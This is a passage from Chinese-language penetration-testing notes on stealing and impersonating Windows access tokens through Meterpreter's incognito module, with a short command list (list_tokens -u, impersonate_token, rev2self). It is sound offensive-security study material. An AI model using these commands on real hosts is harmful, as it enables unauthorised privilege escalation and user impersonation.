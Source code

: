 例如 msf 上线系统后, 使用`list_tokens -u`查看当前可伪造的令牌, 使用`impersonate_token "WIN-K5V2T3U2K4Q\level"`窃取令牌:

![](vx_images/4379540126617.png)

meterpreter 令牌伪造详细的命令列表如下:

```
getuid # 查看当前会话的uid
use incognito  # 使用伪装模式
list_tokens -u  # 列出会话令牌, 需要管理员权限
impersonate_token "xxxxx"  # 窃取某个用户的令牌
rev2self   # 返回之前的AccessToken权限
```

## 4.6 Access Token 令牌伪造与窃取

窃取和伪造令牌使用如下工具:

- incognito(msf/Windows)
- Invoke-TokenManipulation(PowerShell)

### 4.6.1 incognito 介绍

incognito 工具是用来窃取目标主机的的令牌或假冒用户, 在 Windows 上有特有的脚本, 在 msf 中也集成了模块.

### 4.6.2 incognito 窃取令牌

假设现在使用了 msf 上线了一个 meterpreter 会话, 那么可以使用 incognito 模块获取当前系统中所有令牌

1. 在 meterpreter 中执行`load incognito`
2. 执行`list_token -u`可以看到当前主机中所有的令牌
